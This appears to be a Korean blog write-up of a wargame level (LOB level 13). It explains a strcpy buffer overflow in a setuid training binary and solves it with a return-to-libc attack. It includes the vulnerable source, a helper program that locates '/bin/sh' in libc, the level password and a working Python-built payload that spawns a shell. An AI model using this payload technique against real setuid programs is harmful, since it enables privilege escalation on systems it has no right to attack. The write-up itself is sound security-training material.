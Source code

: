 ```yaml
---
title: BOF/ LOB-level13(darkknight)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 13(darkknight)
**ID : darkknight**  
**PASSWD : new attacker**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level13/1.png)  
사용자 bugbear의 권한의 bugbear파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 bugbear의 권한으로 파일을 실행할 수 있다.**  
**bugbear파일이 쉘을 실행시키도록 한다면 사용자 bugbear의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack betrayed you!!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
{% endhighlight %}  

**bugbear.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. argv[1][47]의 값이 \xbf인 경우 "stack betrayed you!!"를 출력하고 프로그램을 종료한다.  
**기존의 공격에서는 argv[1][44]부터 argv[1][47]까지 buffer의 주소 또는 환경변수의 주소등 스택을 사용하였다.**  
**Stack은 0xbfffxxxx로 시작하기 때문에 Stack의 값을 이용하여 문제를 해결할 수 없다.**  
3. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력하는 소스(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**RTL(Return to Library)기법 사용**  
what is RTL?  
Return To Library 즉 라이브러리로 돌아가라! 라는 의미를 가지고 있다.  
main의 ret에 Library 함수의 주소를 덮는 방법으로 코드에서 사용하지 않는 함수를 실행시킬 수 있으며 인자전달 또한 가능하다.  
**ret에 system함수의 주소를 덮어 system함수가 /bin/sh를 실행하도록 프로그램 흐름을 조작**  

**RTL을 사용하는 이유?**  
DEP(Data Execution Protection)라는 방어기법 때문에 RTL을 사용하는데 DEP란 스택,힙 같은 영역에 있는 코드가  
w권한 x권한을 동시에 갖지않도록 차단하는 기법이다.  


![그림2](/assets/LOB/level13/2.png)  
gdb로 분석할 때 권한으로부터 자유롭기 위해 bugbear를 복사한다.  

### disassemble  

**스택구조를 파악하기 위해 디버깅을 한다.**  
권한문제가 없도록 gremlin를 복사하고 gdb를 사용하여 intel방식으로 디스어셈블 한다.  
![그림3](/assets/LOB/level13/3.png)  
disassemble 결과  
**ESP -= 44의 연산이 이루진 것을 보아 buf(40) + i(4) 의 공간이 푸쉬됨을 알 수 있다. dummy없음**  

스택구조|
---|
i(4Byte)|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

![그림4](/assets/LOB/level13/4.png)  
print명령어를 사용해 system함수의 주소를 확인한다.

<br />
{% highlight C linenos %}  
#include <stdio.h>

int main(){
    long sysaddr = 0x40058ae0;
    while(memcmp((void*) sysaddr, "/bin/sh", 8)){
        sysaddr++;
    }

    printf("/bin/sh address : %p\n", sysaddr);
    return 0;
}
{% endhighlight %}  
**sysaddr에 system함수의 주소를 대입하고 memcmp함수를 사용해 system함수의 시작주소부터 /bin/sh를 찾을때까지 반복하는 프로그램을 작성한다.**   
system 함수는 어떤 명령을 실행시킬때 /bin/sh 를 실행시켜 원하는 명령을 실행시킨다. 따라서 /bin/sh를 찾을 수 있는것.  

![그림5](/assets/LOB/level13/5.png)  
작성한 소스를 컴파일하여 실행하면 system함수에 대한 /bin/sh주소를 획득할 수 있다.  

![그림6](/assets/LOB/level13/6.png)  
dummy(4) + 인자(4)  
**system함수로 실행할 명령을 인자로 전달할 때 dummy 4byte와 함께 전달해야함을 알 수 있다.**  

### Attack  

system함수의 주소, /bin/sh의 주소, 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./bugbear [dummy(44)] + [system주소(4)] + [dummy(4)] + [/bin/sh주소]**의 형태로 공격.  
**쉽게말해 프로그램이 system함수를 실행하도록 공격하는데, system함수가 /bin/sh를 실행하도록 인자를 전달한 것이다.**  
**또한 RET에 덮을 system의 주소와 system함수에 전달한 /bin/sh의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림7](/assets/LOB/level13/7.png)  
**페이로드**  
```bash
./bugbear `python -c "print 'A'*44 + '\xe0\x8a\x05\x40' + 'A'*4 + '\xf9\xbf\x0f\x40'"`
```
공격 성공  